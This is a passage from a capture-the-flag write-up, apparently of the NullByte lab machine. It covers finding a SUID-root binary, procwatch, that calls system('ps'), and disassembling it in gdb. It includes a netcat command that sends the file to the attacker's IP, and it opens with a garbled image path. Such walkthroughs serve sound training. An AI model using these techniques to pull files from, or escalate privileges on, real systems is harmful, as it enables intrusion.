Looks like there was something called procwatch in /var/www/backup. This file was SUID root, which made me suspect that it might be exploitable in some way. 

```
ramses@NullByte:~$ ls -l /var/www/backup/procwatch 
-rwsr-xr-x 1 root root 4932 Aug  2 01:29 /var/www/backup/procwatch
```

procwatch appeared to just run ps:

```
ramses@NullByte:~$ /var/www/backup/procwatch 
  PID TTY          TIME CMD
 1430 pts/0    00:00:00 procwatch
 1431 pts/0    00:00:00 sh
 1432 pts/0    00:00:00 ps
```

So I decided to transfer the binary over to my machine for further examination. I setup a netcat listener to receive procwatch and used netcat on the target to send it over. 

```
ramses@NullByte:/var/www/backup$ nc 192.168.107.129 4444 < procwatch 
```

With the binary on hand, I loaded it up in gdb to see what was going on:

```
# gdb -q procwatch 
Reading symbols from /root/nullbyte/procwatch...(no debugging symbols found)...done.
gdb-peda$ pdisass main
Dump of assembler code for function main:
   0x080483fb <+0>: lea    ecx,[esp+0x4]
   0x080483ff <+4>: and    esp,0xfffffff0
   0x08048402 <+7>: push   DWORD PTR [ecx-0x4]
   0x08048405 <+10>:    push   ebp
   0x08048406 <+11>:    mov    ebp,esp
   0x08048408 <+13>:    push   ecx
   0x08048409 <+14>:    sub    esp,0x44
   0x0804840c <+17>:    lea    eax,[ebp-0x3a]
   0x0804840f <+20>:    mov    WORD PTR [eax],0x7370
   0x08048414 <+25>:    mov    BYTE PTR [eax+0x2],0x0
   0x08048418 <+29>:    sub    esp,0xc
   0x0804841b <+32>:    lea    eax,[ebp-0x3a]
   0x0804841e <+35>:    push   eax
   0x0804841f <+36>:    call   0x80482d0 <system@plt>
   0x08048424 <+41>:    add    esp,0x10
   0x08048427 <+44>:    mov    eax,0x0
   0x0804842c <+49>:    mov    ecx,DWORD PTR [ebp-0x4]
   0x0804842f <+52>:    leave  
   0x08048430 <+53>:    lea    esp,[ecx-0x4]
   0x08048433 <+56>:    ret    
End of assembler dump.
```

I set a breakpoint at the call to system() and ran it. Once it hit the breakpoint, I looked at the arguments being passed to system:

